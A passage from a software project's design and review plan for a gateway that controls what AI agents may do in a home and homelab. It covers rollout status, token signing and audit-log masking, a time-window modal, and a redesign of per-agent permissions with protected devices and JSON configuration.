  needs a security design for authenticating the notification action.
* Config export/import (policies, agent policies, windows, integration definitions without secrets).
* Split `main.py` into FastAPI routers; build installers in CI instead of committing copies.
* Agent-facing read-only "would this auto-run?" tool (lower value: commands rarely repeat).
* **UI design pass, after the features are done, in a fresh chat** (start from `docs/features/UI_INVENTORY.md`). Review the layout as a whole: what lives in the queue, the sidebar, the session modal and Statistics; what to merge or move; consistency across F2/F3/F5/F7/F18 additions.

---

## 8. Rollout gate

The implementer never deploys. The reviewer runs this gate (same shape as `docs/security/HARDENING_PLAN.md` § 8):

1. The security rollout (chunks 1–5 + R) is already live. Security chunks 6–7
   are paused; they resume after this plan's rollout.
2. Deploy dashboard-only chunks (F1, F2, F6, F7, F8) together. F3 and F4 each
   need a separate deploy note in the CHANGELOG ("new approval path").
3. F4 ships with every gateway `off`; the operator moves gateways to `shadow` by hand.
4. F5 follows the gateway pipeline: Seed Edge → one dev gateway → soak ≥ 24 h → Fleet.

---

## 9. Status

| Order | Chunk | Slug | Area | Status | Branch | Depends on | Reviewer notes |
|---|---|---|---|---|---|---|---|
| 1 | F1 | breakdown | dashboard | **Merged** 2026-11-07 | `feat/f1-breakdown` @ `e0df20a` | — | 3 rounds; 155 adversarial cases; 14.7% unknown on live data |
| 2 | F2 | review-card | UI | **Merged** 2026-11-08 | `feat/f2-review-card` @ `286df1b` | F1 | 2 rounds |
| 3 | F7 | inner-target | dashboard | **Merged** 2026-11-08 | `feat/f7-inner-target` @ `0ad167f` | F1 | 1 round; backfill 7.1 s on a live-DB copy |
| 4 | F3 | session-plans | dashboard + MCP | Merged | `feat/f3-session-plans` | F2 | + security reviewer sign-off |
| 5 | F4 | read-lane | dashboard | Merged — shadow only; `on` hard-locked | `feat/f4-read-lane` | F1, F3, Chunk H | reviewer pass + security reviewer sign-off |
| 5a | X1 | ctx-actions | dashboard | Merged | `fix/x1-ctx-actions` | — | FYI to security reviewer (approve ignored status) |
| 6 | F5 | exec-results | gateway + dashboard | Merged | `feat/f5-exec-results` | — | |
| 6a | F18 | request-context | dashboard | Merged | `feat/f18-request-context` | F1, F5, F7, X1 | |
| 7 | F12 | ssh-exec | dashboard + gateway | Merged (`c0954cc`) | `feat/f12-ssh-exec` | F4, F5 | security reviewer re-checks the merged gateway bash |
| 8 | F6 | session-wrapup | dashboard | Merged | `feat/f6-session-wrapup` | F3, F4, F5 | |
| 9 | F13 | session-conclusions | dashboard + MCP | Merged | `feat/f13-session-conclusions` | F5, F6 | |
| 10 | F8 | test-traffic | dashboard | Merged | `feat/f8-test-traffic` | — | low priority |
| 11 | F9 | ha-supervisor-read | dashboard | Merged | `feat/f9-ha-supervisor-read` | — | token is now a dedicated `eshu` HA admin user |
| 12 | F10 | ha-supervisor-actions | dashboard | Merged (security sign-off `f9e2c22`) | `feat/f10-ha-supervisor-actions` | F9, F3, Chunk H | security re-reads the P1–P3 diff only |
| 13 | F11 | ha-config-files | dashboard | **Merged** 2026-11-15 (security `57d3243`; dormant until an ha_ssh integration is added). Was ready for merge 2026-11-14: BQ1 (Round 9 reads, keys-only `secrets.yaml`, metadata-only records) and BS3 (awk key extractor); approved | `feat/f11-ha-config-files` | F10, F2, F5, F12 (runner) | merge review |
| 14 | F14 | inventory | dashboard + MCP | Merged | `feat/f14-inventory` | Chunk H | |
| 15 | F19 | unattended-limits | gateway + dashboard | **Merged** 2026-11-11 (security sign-off `67bec51`; AF1/AF2 checked) | `feat/f19-unattended-limits` | F4, F5, F12 | AF3 goes on the next gateway branch |
| 16 | F15 | probes | dashboard + MCP | **Merged** 2026-11-11 (AG1 security decision `eca8982`; AI1 fix merged) | `feat/f15-probes` | F4, F12, F14 | |
| 17 | F21 | snapshot-approve | dashboard + Proxmox | Design first | `feat/f21-snapshot-approve` | F7, F14, F2 | + security sign-off (new write path, destructive rollback) |
| 18 | F23 | change-journal | dashboard | **Merged** 2026-11-11 (AJ1/AJ2) | `feat/f23-change-journal` | F1, F5, F7, F14 | |

### Reviewer notes (security reviewer, 2026-11-12, gateway hunk at `33a1a20`)

**The gateway hunk is approved**, and so is the request-path code that
consumes it.
* **The prefix.** `ESHU_CHECK_TOKEN` is in the prefix parser's key list, is
  charset-checked, takes part in the duplicate-key refusal, and makes
  `MANIFEST_PRESENT=1`. A bare token without a full signature is therefore
  refused (G2).
* **The canonical form.** `v2` is a separate canonical: the version line
  differs and every field is newline-separated with a charset that has no
  newline. So a `v1` signature can never verify as `v2`, and no field can
  slide into another.
* **The token's path.** Only `ESHU_CHECK_TOKEN_VERIFIED`, set after the MAC
  verified, is posted, and both variables are cleared at the top of the
  script.
* **Old gateways.** A gateway older than F22 sees an unknown prefix word,
  treats it as part of the command, and fails the signature. That fails
  closed.
* **Dashboard side.** The token is honoured only with `force_jit`, outside
  a freeze, on a non-Zero-Trust gateway that can limit runs. The claim
  compares it with the item's stored token and also needs the owning agent.
  The stored reason is `plan-check:<plan>:<item>`, with no token. A denied
  card releases the link (AV2).
* **Installers.** All four are regenerated, and the test rebuilds them from
  the generator's inputs.

**When this rebases onto `fix/secret-headers`:** keep the `check_token` body
off argv (BE3's BH3): `--data-binary @-` for the body and
`-H @<(gateway_header)` for the header. That is a should, not a blocker for
this merge.

## Chunk X10 — Approved Windows modal redesign · slug `approved-windows-modal` · dashboard UI · after 1.3

### Design note (2026-11-17)

**Problem.** The modal makes the operator choose an hour and a minute from two
scroll columns, then hides the real schedule in a summary. "Recurring" is the
default, so the common "now, once" case is easy to create as a daily window by
mistake. A window saved with the daily schedule is stored as **UTC minutes**
with a fixed **±2 minute** gateway tolerance, so a 22:50 local choice can read
back as 21:50 or 23:50 depending on the season — the operator who reported this
had to reason about UTC to see why it fired when it did.

**Shape of the redesign (UI only; the window still means what it means).**

* **Quick presets at the top:** `Now for 15 min`, `Now for 1 hour`, `Until end
  of today`, `Custom`. The first three fill a Once window; Custom keeps the
  typed time/duration. Presets never create a daily window.
* **Once / Every day chosen explicitly, Once the default.** The old
  Recurring/Single labels are gone.
* **One typing field, local time.** `HH:MM` (24-hour, the browser's own zone)
  plus a duration in minutes for Once. The hour/minute scroll columns are
  removed. Every day has no duration: the gateway's fixed ±2 minute tolerance
  is the width, and it is said in words rather than left as a UTC footnote.
* **Stored shape is unchanged.**
  * Once: `window_start` = the chosen local time as an epoch, `window_end` =
    start + duration (crossing midnight is just the next epoch), `days_of_week
    = execution_time = 0`, `expires_at = window_end`.
  * Every day: `days_of_week = 0` (or the optional day mask), `execution_time`
    = the chosen local `HH:MM` converted to **UTC minutes**, `window_start =
    window_end = 0`. The preview shows the local time **and** the stored UTC
    time so the conversion is visible.
* **A live one-line preview**, the same text in the modal, the table and an
  agent request's approval card:
  `Runs once, today 22:50-23:05 your time, at most 1 execution, on <gateway>.`
  A daily window says `Runs every day at 22:50 your time (22:50 UTC), within
  ±2 minutes, at most 1 execution, on <gateway>.` A range that crosses
  midnight says `today 23:50 to tomorrow 00:20`. All values are operator or
  gateway text and are escaped at the DOM boundary; the preview function
  returns plain text.
* **Agent requests use the same preview.** The queue card and the approval
  confirmation call the preview function with the request's stored fields; the
  operator sees the same sentence before approving.
* **Mobile and desktop.** The preset row wraps, the time/duration pair stacks
  under ~520 px, and the preview wraps without horizontal scroll. The existing
  1440/390 harness stays the gate.

**Tests.** `tests/ui/windows_modal.cjs` (Node, loading the shipped `app.js`
through `tests/fixtures/appjs_loader.js`) checks the preset maths:
15 min/1 hour/end-of-day, a Once start that crosses midnight, and the local →
UTC conversion under `TZ=Europe/London` and `TZ=America/New_York`; it also
pins the preview sentences. `tests/test_x10_windows.py` runs the harness (and
skips when Node is absent). Screenshots with synthetic data at 1440 and 390.

**Review (2026-11-17): approved and merged.**
* The only backend change: an `expires_at` of 0 now clears a daily
  window's expiry (stored as NULL), never a 0 that would disable the
  window.
* Every new string reaches the page escaped or through `textContent`.
* The screenshots read well at both widths.
* A typed Once time that has already passed rolls to tomorrow (the code
  says so), but no test covers it. Add one on the next touch.

Full suite: 3193 passed, 33 skipped.

### Follow-up: the window token in the audit log (2026-11-17)

**Problem.** Four audit rows wrote the live window token into `details`:
`window_created`, `window_claimed`, `window_request_approved` and
`window_deleted`. The token is the credential that authorises a window
execution, so a copy in the audit log outlives the operator's screen and can
be read by anyone who can read audit history.

**Fix.** A window token in an audit detail is replaced by `token_fp=<8 hex>`,
the first eight hex characters of its SHA-256. The fingerprint is enough to
tell two windows apart and cannot be used to claim one. The four rows now
carry `token_fp`; `window_claimed` used to interpolate the token as
`Token <raw> claimed` and now uses the same `token_fp` label. The database
still stores the token in `approved_windows` and `window_executions`; that is
the live credential, not an audit copy. Gateway-side window logs were already
limited to the first eight characters (`BJ3`), and notifications never carried
the token, so no other surface needed a change.

**Tests.** `tests/test_window_token_audit.py` creates, claims, approves and
deletes a window, then asserts that no row of those four event types contains
either token and that each row carries the matching fingerprint.

**Migration proposal (design only; not written).** I recommend a one-time
masking migration, **after Security answers**. Existing audit rows can hold
tokens for windows that are still active, so leaving them until they age out
keeps a usable credential in the database. The migration would be narrow and
idempotent:

* only the four event types above;
* rewrite `token=<value>` (and `Token <value> claimed`) to
  `token_fp=<sha256(value)[:8]>`;
* leave every other character of `details` untouched;
* run in one transaction, record the number of rows changed, and write no
  token into the migration's own audit row;
* be reversible only from a database backup, which the operator takes first.

The alternative, no migration, is simpler but leaves live tokens readable.
I would not delete the old rows: they are the evidence of who created and
approved each window. The migration masks one field, not the history.

---

## Chunk X11 — Agents and allowances, redesigned around the agent · slug `agents-allowances-redesign` · dashboard UI + small API · **security reads the API part (S1–S4)**

Requested 2026-11-17 by the operator: "that Allowances page is awful. I can't
even use it to configure it", and the Agents UI has "a lot of empty space, a
complicated modal". It supersedes the agent-policy half of X3. The main
reviewer wrote this plan from screenshots of the current pages, taken with the
headless harness on synthetic data.

### What the operator was trying to do

Let the household agent switch eight named plugs without asking, never touch
the two server plugs, and add a ninth plug later. The current UI could not do
this without the reviewer's help. The operator needed to type entity ids and
an HA label id, choose the agent in one form so that another form would use
it, build a "profile" of "templates", and press "Update agents".

### What is wrong today (from the screenshots)

**Allowances page**
* **It is ordered by system concept, not by the task.** It opens with the
  ceiling, a wall of 25 checkboxes the operator rarely changes. Then come two
  reference lists (never-allowable domains, never-words) and the destructive
  words. The live allowances start more than a screen down, and the create
  form comes after them.
* **There are three ways to make the same thing.** The "New allowance" form,
  a profile template with entities, and a profile template with a label each
  need different fields. The profile's apply uses the agent chosen in the
  other form, a hidden coupling.
* **The operator types HA internals:** comma-separated entity ids, and a
  label *id*. Nothing shows a device's name, its area, its current state, or
  whether it is protected.
* **An allowance row hides what it allows.** It reads "switch.turn_off on 6
  entities", but which six? There is no Edit button: the only way to change
  one is to revoke it and recreate it.
* **The jargon is the code's vocabulary:** ceiling, template, profile,
  join, label id, "Update agents".
* The profile form has no rate field, so a label-based allowance has no cap.

**Agents list**
* Each full-width row holds a name, "last used", and four cryptic chips
  (`tools 1`, `0/min`, `SSH off`, `web off`). At 1440 px more than half the
  view is empty. Nothing says what an agent can actually do.

**Agent page**
* **It is one long page with four tabs** (Tools, Rules, SSH, Advanced),
  followed by a separate Web fetch section and an Activity section.
  * **Four separate Save buttons**, each with a sentence explaining what it
    does not save.
  * **"Back to agents" three times.**
  * The Web fetch section has its own agent dropdown, although the page is
    already about one agent.
* **Tools are 46 chips with raw names** (`home_assistant_ha_addon_action`).
* **Rules are comma-separated text boxes** for domains and services.
* **The "Ungated" switch is misleading.** It says "Ungated runs without a
  JIT row", which is false for a tool Eshu always gates (`call_service`). That
  is exactly why the household agent's light calls kept asking. The operator
  has no way to see this.
* **The agent's allowances are not shown on its own page.**
* Caps-tracked eyebrows over every block ("AGENT POLICY", "TOOLS 1 / 46",
  "LIMITS", "RATE LIMIT") add noise without adding information.

### Design direction

Eshu is a gate between AI agents and one person's house and homelab. The
operator comes to these pages with one question: **"what can this agent do
on its own, and how do I change that?"** So the agent is the unit, and every
permission is described in plain words as one of three outcomes:

* **Runs without asking**
* **Asks you first**
* **Never**

Keep the app's existing shell, colours, type and starfield; this is not a
re-skin. Within these two pages:
* Use sentence-case section headings in place of tracked caps eyebrows.
* Use friendly names first and ids second (in muted mono, on hover or under
  the name).
* Give one obvious primary action per view.
* Let the memorable element be the **device grid** under "Runs without
  asking". Everything around it stays quiet.

Vocabulary (use it everywhere: buttons, toasts, audit text shown to the
operator):

| Code / today | UI word |
|---|---|
| allowance | "Runs without asking" (section); a single row is "a permission" |
| ceiling | "Limits for all agents" |
| never lists | "Never allowed" |
| profile | **dropped from the main UI** (see "Copy from") |
| label template | "Follow a Home Assistant label" |
| accept-join | "Review new devices" |
| ungated / inherit / always approve | "Runs without asking" / "Default" / "Always asks" |

### Layout

The 2026-11-18 operator decision in the design note supersedes the page names
and navigation in this early sketch (there is no separate Allowances page; the
agent page's sections are Overview, Tools, SSH, Websites, Activity and JSON).

**Agents list.** A grid of agent cards: 2-3 per row at 1440 px, 1 at
390 px. Each card answers the question in plain words, with no chips:

```
┌───────────────────────────────────────────┐
│ household-agent                 Active    │
│ Last used 4 minutes ago                   │
│                                           │
│ Runs without asking  8 devices in HA      │
│ Asks you first       other HA services    │
│ SSH                  none                 │
│ Websites             5 sites              │
│                                [ Open ]   │
└───────────────────────────────────────────┘
```

"New agent" is a card-shaped button at the start of the grid. It opens a
short dialog (name, then the token shown once, with the client hint).

**Agent page.** A two-column page at desktop width, one column on mobile:

* **Left, sticky:** the agent's name, status, token actions (Revoke, Delete,
  in a "Token" menu), and a section list: Overview, Home Assistant, Other
  tools, SSH, Websites, Activity. These are anchors, not tabs, and every
  section is on the page.
* **Right:** the sections, in that order.
* **One sticky save bar** appears only when something has changed: "3
  changes · Discard · Save changes". It sends only the changed sections, so
  the X4 rule (absent fields keep their stored value) still holds.

```
┌──────────────┬───────────────────────────────────────────────┐
│ household-   │ Overview                                      │
│ agent        │ Runs without asking: 8 plugs (turn on/off)    │
│ Active       │ Asks you first: everything else in HA         │
│ Token ▾      │ Never: SSH · scripts and automations          │
│              │                                               │
│ Overview     │ Home Assistant                                │
│ Home Assist. │  Runs without asking            [ Edit ]      │
│ Other tools  │  ┌ Plugs ──────────────────────────────────┐  │
│ SSH          │  │ Bedroom Plug 1     on    ✓ off  ✓ on    │  │
│ Websites     │  │ Christmas Tree     off   ✓ off  ✓ on    │  │
│ Activity     │  │ Office Heater      on    ✓ off  – on    │  │
│              │  │ Homelab plug       on    Protected      │  │
│              │  └─────────────────────────────────────────┘  │
│              │  Asks you first: every other service call     │
│              │  Limits for all agents ▸   Never allowed ▸    │
└──────────────┴───────────────────────────────────────────────┘
                          [ 3 changes · Discard · Save changes ]
```

**"Runs without asking" editor** (opened by Edit, inline in the section):

* **Rows are devices**, read live from HA by friendly name and grouped by
  area, then type. Each row shows: name, area, current state, and a toggle
  per action the limits allow (Turn off, Turn on; Open/Close only when covers
  are enabled).
  * Search by name.
  * Filter chips: "Only devices with permissions", or by type.
  * Config and diagnostic entities (child lock, LED, auto-off,
    `entity_category` set) and disabled entities are hidden by default, behind
    "Show settings entities". The operator never sees 55 "switches" when 14
    are plugs.
* **Protected devices** (S3) show a lock and "Protected: no agent can be
  given this". They cannot be toggled. A device whose class is risky
  (garage, gate, door, lock) needs the existing second confirmation (answer
  6) in a plain sentence.
* **"Follow a Home Assistant label"** is an alternative per action. Pick the
  label by its *name*. The grid then shows that label's devices, greyed and
  read-only, with the note "Add or remove the label in Home Assistant; new
  devices wait for your review here". Pending joiners show as a banner,
  "2 new devices have this label · Review", which opens the same rows with
  Allow / Skip.
* **Limits per permission:** "At most [30] times an hour" and "Only between
  [07:00] and [23:00]". The defaults are 30 per hour and any time.
* Saving shows a **preview** in plain words before anything changes:
  "household-agent will be able to turn off 7 plugs and turn on 5. Removed:
  Garage plug (turn on)." This reuses the profile diff.
* **"Copy from another agent…"** fills the grid from another agent's
  permissions, for review before saving. This replaces profiles in the UI.
  The profile API stays and is no longer linked.

**Allowances page.** It becomes **"Runs without asking"**, an overview across
agents:
* One block per agent with its permissions in plain words ("Turn off:
  Bedroom Plug 1, Christmas Tree, … (7)"), each with Edit (going to the
  agent's section) and Revoke.
* Suspended permissions on top, with their reason in words and Resume.
* **"Limits for all agents"** (the ceiling) and **"Never allowed"** (the two
  never lists plus the destructive words) move to collapsed sections at the
  bottom.
  * Limits keep their risk sentences and their save confirmation.
  * Never allowed is read-only reference, except for adding a word.
* **Protected devices** has its own short section here: a device picker with
  the same rows and a Protect toggle.

**Other tools.** Group by integration, with friendly names generated from
the tool name and its description (`ha_addon_action` → "Add-on action";
show the description under it). Each tool shows its outcome for this agent:
* Runs without asking (read);
* Asks you first (write);
* **"Always asks — Eshu requires approval for this tool"** (always-gated).

Per integration, quick presets: "Read only", "Everything", "None". Replace
the "Ungated" switch with the three outcome words. Next to an always-gated
tool, the "Runs without asking" choice is disabled and links to the
Home Assistant section: "Use Runs without asking for specific devices".

**Rules (argument rules).** Replace the comma text boxes with token inputs
(type, Enter, ×) and a one-line explanation each. Move them under the Home
Assistant section as "Advanced: which service domains this agent may call".

**SSH and Websites.** Same content, plain headings, inside the one page. The
Websites dropdown for "Agent token" is removed.
The Websites placeholder currently lists real local sites (a council and
supermarkets). Replace it with neutral examples (`docs.example.com`,
`example.org`): the repo is public, and placeholders are not the place for
the operator's own context.

**Activity.** It stays last. A "Show all in History" link filters History to
this agent.

### API changes (security reads these; each with tests)

The operator's 2026-11-18 decision adds **S5**. S1–S4 are unchanged in meaning;
S5 is the per-agent JSON document.

* **S1 — device list for the picker.** `GET /api/ha/devices` (operator
  session only). From the one HA integration (found by kind), read:
  * the entity registry: name, entity_category, disabled_by, labels,
    area_id, device_id;
  * states: friendly_name, state, device_class;
  * the area and label registries.

  Return per entity: id, name, area, domain, state, device_class,
  labels (names and ids), `settings_entity` (entity_category set), disabled,
  `risky` (the answer 6 classes) and `protected` (S3). Cache it for 60 s,
  scrub it, and never expose it to agents. The labels endpoint is
  `GET /api/ha/labels`.
* **S2 — set an agent's HA permissions in one go.**
  `PUT /api/agents/{id}/ha-permissions` takes the desired state:
  `[{domain, service, entities[] | label_id, rate_per_hour, window}]`, plus
  `preview: true|false`, `risk_ack` and the `version` the editor loaded.
  * It reuses `apply_profile`'s machinery: validate everything first, then
    revoke and insert in one `BEGIN IMMEDIATE`, with a 409 on a stale
    version.
  * The preview returns the plain-words diff.
  * Unchanged permissions keep their id and use counts. Only changed ones
    get a new version (revoke and create, as today).
* **S3 — protected devices.** An operator-held list of entity ids
  (`allowance_protected`, audited on change, and a notification when one is
  removed).
  * A save that includes a protected entity is refused.
  * `match_and_claim` refuses a call that names one, as defence in depth.
  * A label refresh never adds one (it is dropped, with an audit row).
  * The picker shows a lock.
* **S4 — CB1 (security follow-up from 2573632).** Record the HA
  integration's id and a base-URL fingerprint on each permission. If either
  changes, suspend every HA permission with `ha_changed`, shown in words
  with Resume.
* **S5 — one JSON document per agent.**
  `GET /api/agents/{id}/config` returns `{schema_version, version, agent,
  tools, ssh, websites, home_assistant}`. `tools` holds the mode, allowlist,
  approval modes, argument rules and rate limit; `ssh` the mode and hosts;
  `websites` the enabled flag and allow/deny lists; `home_assistant` the
  permissions in the S2 shape. `agent` is read-only metadata (id, name,
  revoked). The document never holds the agent token or an integration secret.
  `PUT /api/agents/{id}/config` takes `{document, preview, version, risk_ack}`.
  `preview: true` returns the same plain-words changes the GUI shows, the
  risky items and whether `risk_ack` is needed; it writes nothing. Apply is
  one `BEGIN IMMEDIATE`: tools/SSH, websites and HA permissions move together
  or not at all. A stale `version` is 409. JSON passes the same protected,
  ceiling, never-allowed and risk checks as the GUI, and absent fields keep
  their stored values (X4). Reusing another agent's document is the copy
  feature; the preview names the target agent. The config version is bumped by
  every config write, including the legacy policy and website endpoints.
* No change to matching rules, the ceiling, the never lists or P2.

### Tests to add

* S1: the operator only (an agent bearer gets 401/403); settings and
  disabled entities are flagged; risky classes and protected flags are set;
  no secrets; the cache works.
* S2: preview vs apply; atomicity (a failing item leaves everything as it
  was); a stale version gives 409; unchanged rows keep their id and count;
  risk_ack is enforced; a label entry follows the joiner rules.
* S3: protected refusal on save, on match, and on label refresh; audit
  rows; the notification.
* S4: changing the base URL or swapping the integration suspends; Resume
  works.
* S5: a GET then an unchanged PUT changes nothing; each validation refusal
  (protected device, ceiling, never allowed, risk ack, bad schema, unknown
  field, stale version); atomicity when one HA item is invalid after a tools
  change; no token or secret in the document; JSON cannot do anything the GUI
  refuses; copy-preview names the target agent.
* UI (node harness and the 1440/390 view harness):
  * the vocabulary table (no "ceiling", "profile" or "template" in the
    visible text of the two pages);
  * every string escaped;
  * the save bar sends only changed sections;
  * the device grid hides settings entities by default;
  * the protected lock;
  * the always-gated tool disables "Runs without asking".
* Screenshots with synthetic data at 1440 and 390: the agents grid, the
  agent page (overview, HA section, editor open, preview), and the
  overview page.

### Acceptance

The operator can do this without typing an id:
1. Give an agent "turn off" on seven plugs and "turn on" on five, by name.
2. Protect two plugs.
3. Follow a label for another agent.
4. Review a new device that gained the label.
5. Edit a permission's rate.

The household-agent case in this note's first paragraph takes under two
minutes.

### Order

1. Design note with the wireframes at real size (a screenshot of a static
   mock with synthetic data is fine). The **operator** approves the look
   before code. *Approved with changes 2026-11-18; no new mock.*
2. S1–S5 with tests. **Security reads.**
3. The UI, including the six Stage 3 fixes in section C. Main-reviewer review
   with the harness screenshots.

### Design note — the look (2026-11-17; operator decision 2026-11-18)

**Status: approved with changes.** The operator likes the direction and finds
it more legible. They approved it with the information-architecture and JSON
decisions below; no new mock is needed. Stage 2 is S1–S5, and Stage 3 applies
the six review fixes in section C. Every device, agent, site and timestamp in
the Stage 1 mock is synthetic.

**Scope of the Stage 1 mock.** It is a static page at
`docs/mockups/x11/index.html`, built with the app's own `fonts.css`,
`style.css` and shell colours. `scripts/x11_mock_shots.cjs` renders the six
states at 1440 and 390. It remains the record of the approved look; the
changes below are the operator's edits to it, not a request to rebuild it.

**The question every page answers.** What can this agent do on its own, and how
do I change it? Every permission is one of three outcomes: *Runs without
asking*, *Asks you first*, *Never*. The vocabulary table applies throughout;
`ceiling`, `profile` and `template` do not appear in the content.

### A. Information architecture (operator's decision)

* **The sidebar has no “Runs without asking” or “Allowances” item.** Everything
  lives under **Agents**. The old Allowances page and its sidebar entry are
  removed.
* **Agents has exactly two tabs.**
  * **Agents** — the agent-card grid, plus a banner when any permission is
    paused: “1 paused · Review”, which opens the suspended permission in the
    agent that owns it.
  * **Rules for all agents** — protected devices, limits for all agents, and
    never allowed. These are the only settings not tied to one agent.
* **Edit agent → sections:** Overview, Tools, SSH, Websites, Activity, JSON.
  The sections are anchors on one page, not tabs.
* **Tools is grouped by integration.** Each tool shows its outcome for this
  agent: *none*, *asks you first*, or *runs without asking*. Allowances live
  under their tool: Home Assistant → `call_service` → “Runs without asking”
  opens the device grid. Protected devices are locked in the grid and link to
  **Rules for all agents**.
* **The old Allowances overview becomes two places.** Its per-agent permission
  blocks become each agent's Overview. Its cross-agent material — paused
  permissions, limits, never allowed and protected devices — becomes the
  Agents-tab banner and the **Rules for all agents** tab. Nothing is lost; the
  operator no longer has a separate page that duplicates one agent's page.

**Agents tab.** A card grid, three across at 1440 and one at 390. A card is
name, status, last used, then four plain rows: runs without asking, asks you
first, SSH, Websites. No chips and no raw counts alone. “New agent” is a normal
button at the start of the grid. The paused banner sits above the grid and
appears only when something is suspended, with the reason in words.

**Rules for all agents tab.** Three collapsed sections, in this order:
protected devices (the device picker with a Protect toggle and the lock already
seen in the grid), limits for all agents (the existing risk sentences and save
confirmation), and never allowed (read-only reference, except adding a word).
This is the destination for the banner and for the grid's protected links.

**Agent page.** Two columns at desktop, one at mobile. The left column is
sticky: agent name, status, token menu and the section anchors above. The right
column is the content. One save bar sits at the bottom and only appears with
changes. The old four Save buttons, the “Back to agents” repeats and the Web
fetch agent dropdown are gone.

**Home Assistant in Tools.** The `call_service` row says “Asks you first” by
default. Choosing “Runs without asking” opens the editor inline in that row.
The device grid is the memorable element: grouped by real HA area (not by the
mock's invented grouping), name first, area and type in muted mono underneath,
current state, then one checkbox per action. Settings and diagnostic entities
are hidden behind “Show settings entities”. Protected rows show a lock,
“Protected: no agent can be given this”, and a link to Rules for all agents.
The label alternative and the rate/window limits sit in the editor. This is
where a ninth device is just another row.

**Editor.** Search, type filter chips, and a per-action choice — **Pick
devices** or **Follow a Home Assistant label**. Picking devices leaves the
device column editable. Following a label makes that column read-only, shows
the label's devices greyed, and says “Add or remove the label in Home
Assistant; new devices wait for your review here”. The per-permission limits
are “At most [30] times an hour” and “Only between [07:00] and [23:00]”; both
default to 30 per hour and any time. One counting rule feeds the section, the
preview and the Overview. The legend dot is fixed and “New agent” is a normal
button, not a card-shaped control.

**Save preview.** Saving first shows a plain sentence — “household-agent will
be able to turn off 7 plugs and turn on 5. Removed: Garage plug (turn on).” —
and the resulting grid. Nothing has changed yet. The bar says “3 changes”,
then Discard and Save changes. The same words are returned by the API preview
used below.

**Copy from another agent.** Pasting one agent's JSON into another is the
replacement for profile templates. The preview names the target agent and the
devices, tools, SSH hosts and websites that will change for it.

### B. JSON for everything, per agent

* **One document holds the whole agent configuration:** tools, argument rules,
  approval modes, rate limit, SSH, websites, and the agent's Home Assistant
  permissions (allowances, including label-followed ones, their rate and
  window). It never contains the agent token, an integration secret or any
  other secret.
* **Every section has a “Show JSON” toggle** showing that part's current JSON.
  The **JSON** section shows and edits the whole document. It carries a
  `schema_version` field.
* **Check and Apply.** Check returns exactly the plain-words preview the GUI
  shows. Apply saves. It is all-or-nothing in one transaction. A stale
  `version` (the agent changed since the document was loaded) is refused with
  **409**.
* **The same validation as the GUI.** JSON is checked against protected
  devices, the limits, never-allowed, the risk confirmation (the preview lists
  the risky items and Apply needs an explicit `risk_ack`), and the X4 rule: a
  field absent from a partial document keeps its stored value.
* **Pasting one agent's JSON into another is “copy from another agent”.** The
  preview names the target agent and what will change for it.

### C. The six review fixes (Stage 3)

These are Stage 3 work; they are recorded here so the approved look and the
final UI cannot drift.

1. **The real shell and look** — starfield, navy header, serif titles, the full
   sidebar and device names in the body font. The mock is a guide, not a
   replacement shell.
2. **Rows grouped by their real area**, from the live HA registries.
3. **Per action, a clear choice:** “Pick devices” or “Follow a Home Assistant
   label”; choosing a label makes that column read-only.
4. **Defaults:** time window “any time”; rate 30 per hour.
5. **One counting rule everywhere**, so the section, preview and Overview agree.
6. **Fix the legend dot**, and make “New agent” a normal button.

**Screenshots.** Six states at 1440 and 390, unchanged in name:

* `docs/screenshots/x11/agents-1440.png` / `agents-390.png`
* `docs/screenshots/x11/agent-1440.png` / `agent-390.png`
* `docs/screenshots/x11/agent-home-assistant-1440.png` / `agent-home-assistant-390.png`
* `docs/screenshots/x11/agent-editor-1440.png` / `agent-editor-390.png`
* `docs/screenshots/x11/agent-save-preview-1440.png` / `agent-save-preview-390.png`
* `docs/screenshots/x11/runs-without-asking-1440.png` / `runs-without-asking-390.png`

The last pair is relabelled **Rules for all agents** in the Stage 3 shell; it
keeps its filename so the Stage 1 record stays comparable.

**Look questions — answered.** The operator approved the card summary, the
inline save preview, and protected devices staying visible in the grid; the
sections above absorb those answers.

### Implementer notes

**Stage 2 (2026-11-18).** Code is on `feat/x11-agents-allowances`.

* **S1** — `core/ha_devices.py`, `GET /api/ha/devices`,
  `GET /api/ha/labels`. One HA by kind; entity, device, area, label and state
  reads; friendly name first, real area, current state, labels, settings and
  disabled flags, risky classes, protected flag; scrubbed; 60 s cache keyed by
  database and integration.
* **S2** — `core/agent_config.py`, `GET`/`PUT
  /api/agents/{id}/ha-permissions`. All items validate before one
  `BEGIN IMMEDIATE`; preview is plain words and the risky list; a stale
  `version` is 409; unchanged rows keep id and uses; a changed row gets the
  old version + 1; a label wins over its round-tripped entity list; duplicate
  or overlapping permissions are refused because they would make a match
  ambiguous.
* **S3** — `allowance_protected`, `GET`/`PUT /api/allowances/protected`.
  Saves, match and label-accepts refuse a protected entity; a label refresh
  drops one with `allowance_protected_label_skipped`; add/remove are audited;
  removal notifies.
* **S4** — `allowances.ha_integration_id` and `ha_base_url_fp` on every new
  row. A changed id or base URL suspends with `ha_changed` (or refuses the
  match before the refresh); Resume re-pins the current HA. Legacy rows are
  backfilled on the first refresh, not suspended.
* **S5** — `GET`/`PUT /api/agents/{id}/config`. The document is
  `schema_version`, `agent` (read-only), `tools`, `ssh`, `websites`,
  `home_assistant`; it never carries a token or integration secret. A partial
  document keeps every absent field (X4). `preview: true` is Check; apply is
  one transaction across policy, websites and HA permissions; a stale version
  is 409; the same protected/ceiling/never/risk checks run. The website
  section also runs the legacy fetch-access sync after the commit.
* Config version: `agent_config_state.version`. It is bumped inside the
  core write's transaction — create/revoke/suspend/resume an allowance,
  accept-join, apply a profile, a label drop or pin refresh, a protection
  change for every agent holding an affected permission, and a website-policy
  write — so the approver revoke path and background refreshes invalidate a
  loaded document too. The endpoint-level bumps were removed.
* Expiry: `expires_at` is part of the S2/S5 permission and is carried over
  when a changed permission omits it. A new permission defaults to 0
  (never), 30/h and any time; a changed permission that omits rate, window or
  expiry keeps the stored values. An expiry is a non-negative Unix second or
  0/None.
* The `/config` follow-up calls `_sync_web_fetch_access()` after a tools or
  SSH change, not only after a websites change, so the MCP tool list and the
  fetch caller gate match PUT /api/agents/{id}/policy.

**Security review fixes (2026-11-18, at `1bfa385`).**

* **CB5 — protection disarms.** `allowance_protected` stores the registry id
  read when the device is protected. In the protect transaction, every live
  permission holding the entity id or registry id is suspended with reason
  `protected`; one audit row per permission and one version bump per affected
  agent. Removing protection resumes nothing, and Resume refuses while any
  device is still protected. Save, accept-join, label refresh and match all
  compare both ids; match uses `entities_json` pins and does no HA read.
